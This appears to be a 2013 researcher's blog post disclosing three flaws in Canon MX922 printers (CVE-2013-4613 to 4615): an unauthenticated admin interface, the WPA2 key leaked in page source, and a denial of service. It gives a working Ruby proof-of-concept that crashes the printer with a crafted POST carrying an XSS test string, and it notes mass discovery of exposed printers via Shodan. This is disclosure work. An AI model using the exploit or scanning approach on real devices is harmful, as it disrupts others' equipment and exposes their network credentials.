 ```yaml
---
title: "Canon, Y U NO Security?"
date: "2013-06-18T08:23:00-04:00"
comments: true
highlight: "true"
categories:
 - http
 - printer
 - canon
 - security
 - hacking
---
```


{{% figure class="img-responsive" src="/img/y-u-no-guy.jpg#left" %}}

I recently bought a new printer at home, so my wife could print coupons without manually attaching to my office printer each time (Thanks coupons.com and all the other shady sites that require spyware-like software to print coupons, and often don't support network printers). I ended up picking up a [Canon MX922](https://www.amazon.com/dp/B00AVWKUJS/ref=as_li_ss_til?tag=mattandcom-20&camp=0&creative=0&linkCode=as4&creativeASIN=B00AVWKUJS&adid=07S04SQ3X3C73H5QDS7T&). It works awesome for her, and is connected over WiFi, so any device in the house can print to it. This got me thinking though, about how secure it was.

<!-- more -->

## No Credentials For Management Interface
### CVE-2013-4613

I found the IP of the status page of my router, and browsed to it. I was greeted with this management page. 

{{% figure class="img-responsive" src="/img/printer_1.png" %}}

I then figured I'd look at some of the more advanced settings, so I clicked the "Advanced" link. This brought me to a control panel for the printer. I saw a bunch of information, and was surprised that I had not entered <b>any</b> credentials. I figured maybe the status page would be anonymous, but surely I'd need some password to access the management pages. But then again, I hadn't used any password when setting up the printer using the LCD.

## Disclosure of Wireless Key and SSID
### CVE-2013-4614

I eventually browsed to the "Network Settings" tab, and saw my SSID of "Wireless". Not too bad, since it's broadcast in the air.

{{% figure class="img-responsive" src="/img/printer_2.png" %}}

I saw that it was using WPA2, as I configured. I clicked the "Modify" button, and saw that I could change all of the wireless settings. The worst was that when I saw the "Use WPA2" radio button, I saw that there was text in the password box.

{{% figure class="img-responsive" src="/img/printer_3.png" %}}

Assuming that there was a junk value in there, I viewed the source. Unfortunately, what I found was that the page did indeed have my printer's WPA2 password right there.

{{% figure class="img-responsive" src="/img/printer_4.png" %}}

I started thinking about this. It wasn't a <i>huge</i> issue, since you'd have to already know my WPA2 key to get to the printer, right? Oh, but what about if a device behind my firewall had been compromised by a remote attacker? The attacker would be free to navigate to my printer, and grab my password. If I was like just about every other person I talk to, I probably use the same password on everything, so I don't have to remember unique passwords. That means now an attacker could potentially login to my email, my SSH server, or even other machines on my LAN. This scared me slightly. 

After a while, I started thinking that perhaps there were people that could potentially put their printers directly connected to the internet, and have these management interfaces publicly exposed to anonymous clients. I checked out the [ShodanHQ](http://www.shodanhq.com/search?q=port%3A80+KS_HTTP+1.0) (FYI, it seems also Minolta uses this server banner as well). I saw that there were nearly 15,000 at the time of this writing, so I wrote up a quick Metasploit module to enumerate the information. It is located [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/canon_wireless.rb). Below is sample output from a selection of hosts I got from ShodanHQ and a host that should time out, as a control sample.

{{% figure class="img-responsive" src="/img/printer_5.png" %}}

## Denial of Service
### CVE-2013-4615

I kept playing around with the configuration interface, and while tinkering with some inputs in [Burp](http://portswigger.net/burp/), the device stopped responding. I walked to the other room, where we keep the printer, and noticed that it was completely unresponsive. I had to power-cycle the device, to which it came back up and told me it wasn't powered down properly.

When I reported this to Canon, they asked me for more information, so I provided them the following code as a proof-of-concept.

```
#!/usr/bin/ruby

require 'net/http'
require 'uri'

print 'Enter your printer IP Address: '
input = gets.strip

printer_url = "http://#{input}"

# Make the first request, to set the IP to invalid data
post = Net::HTTP.post_form(URI.parse(printer_url + '/English/pages_MacUS/cgi_lan.cgi'),
{'OK.x' => '61', 'OK.y' => '12', 'LAN_OPT1' => '2', 'LAN_TXT1' => 'Wireless', 'LAN_OPT3' => '1', 'LAN_TXT21' => '192', 
'LAN_TXT22' => '168', 'LAN_TXT23' => '1', 'LAN_TXT24' => '114"><script>alert(\'xss\');</script>', 'LAN_TXT31' => '255',
'LAN_TXT32' => '255', 'LAN_TXT33' => '255', 'LAN_TXT34' => '0', 'LAN_TXT41' => '192', 'LAN_TXT42' => '168', 
'LAN_TXT43' => '1', 'LAN_TXT44' => '1', 'LAN_OPT2' => '4', 'LAN_OPT4' => '1', 'LAN_HID1' => '1'})

# Make the second request, to trigger the DoS
begin
get = Net::HTTP.get(URI.parse(printer_url + '/English/pages_MacUS/lan_set_content.html'))
rescue Timeout::Error
puts 'Look at your printer to see it is unresponsive.'
end
```

If you look closely, you can see that I was testing for Cross-Site-Scripting, and put HTML in the "LAN_TXT24" input box. Canon's javascript validation prevents this, but nothing stops you from manipulating the HTTP response. This is a prime example of why server-side validation is also required.

I ended up turning this into a Metasploit module as well. You can find it available [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/canon_wireless_printer.rb). It works pretty similarly to most DoS modules:

{{% figure class="img-responsive" src="/img/printer_6.png" %}}

## Canon's Response

I responsibly disclosed these vulnerabilities to Canon, but they apparently don't deem them worthy of being fixed. I don't think they really "get it". Since they aren't going to fix it, I am releasing these details publicly. Below is their reply:


>Dear Mr. Andreko,
>
>Thank you for your patience in allowing Canon to respond.  We have confirmed that the two issues you described in your May 27th e-mail can occur in certain printers such as the MX922.  However, with respect to the issue of no password by default, please note that the inkjet printers which have network functionality such as the MX922 are designed for home use which is supposed to be secured.  For this reason, and for user convenience, the default setting does not require a password.  However, if a user has a particular concern about third parties accessing the user’s home printer, the default setting can be changed to add a password.
>
>Similarly, regarding the DoS issue, Canon believes that its printers will not have to deal with unauthorized access to the network from an external location as long as the printers are used in a secured environment.  The issue you described could only occur when unauthorized access to an unsecured network takes place from the outside.  Canon has long advised customers to ensure that their computers and printers are secured when used in a wireless LAN environment.  We will continue advising customers to use our inkjet printers in a secured network environment with a firewall.  However, even if the printer were not used in a secure environment, in the unlikely chance that this type of access occurred from outside, the printer would simply have to be unplugged and re-plugged to ensure normal operation.  In addition, if the network security settings on the printer had been changed by the external source as a result of the incident, then they would have to be changed back to the default settings along with unplugging and re-plugging the power cord to ensure normal operation.
>
>Again, we thank you for giving Canon the opportunity to investigate these issues and to respond to your concerns.
>
>Best regards,
>Joy
>Executive Response Representative
>Canon Customer Relations
>customer@cits.canon.com
>866-886-1901, x 2130


I understand, these vulnerabilites aren't super high priority. They're no ms08-067. But I would still think a vendor would want to fix them. When searching ShodanHQ, I found a bunch of printers from UCLA. I can only imagine the chaos when it becomes finals-week, and all the printers on campus stop working randomly. That'd be bad PR for Canon. Who knows what else is out there. I'd personally be interested in dumping the firmware of the printer, and seeing if there's a way to get remote code execution out of a crash. I'll chalk that up to my TODO list.
